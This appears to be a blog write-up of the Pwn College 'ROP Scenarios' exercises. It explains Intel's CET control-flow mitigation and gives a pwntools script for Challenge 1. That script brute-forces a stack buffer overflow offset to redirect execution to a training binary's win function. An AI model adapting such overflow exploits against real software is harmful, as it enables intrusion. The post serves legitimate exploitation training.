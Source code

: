 ```yaml
---
layout: post
title:  "Pwn College - ROP Scenarios"
date:   2024-05-17 19:59:45 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Overview

This module teaches different exploitation scenarios involving ROP chains. \
Personally, I found most of the challenges within this module not challenging at all, with minimal learning benefit. \
However, challenges 13-15 were interesting, as they involved exploiting full-mitigation binary (NX, DEP, ASLR, and full RELRO) without any leak primitive - demanding some non trivial tricks. 

## CFI

Intel’s implementation of CFI mitigation is called CET, and already exists within new processors after 2020. \
The idea is simple - start the first instruction of every basic block of the program with a `endbr64` instruction. Upon performing any indirect jump, such as `ret, call rbx, jmp rcx` - the hardware automatically checks that the destination address contains the `endbr64` as its first instruction. If it doesn’t, the program crashes. \
This mitigation kills the option of concatenation of small gadgets, that usually reside by the end of basic blocks. However, we can still perform block-oriented programming or SROP technique. 

Notice that on non-CET processors, the `endbr64` instruction is just a `nop`.

## Challenge 1

No ROP yet, warming up.

```python
def main(): 
    elf = ELF(BINARY)
    win_addr = elf.symbols['win']

    for delta in range(-0x40, 0x40, 8):
        print(delta)

        p = process(BINARY)

        buf = b'A' * (0x48 + delta) + p64(win_addr)
        p.send(buf)
        time.sleep(0.1)
        data = p.recv()
        if b'pwn' in data:
            print(data)

if __name__ == '__main__':
    main()
```
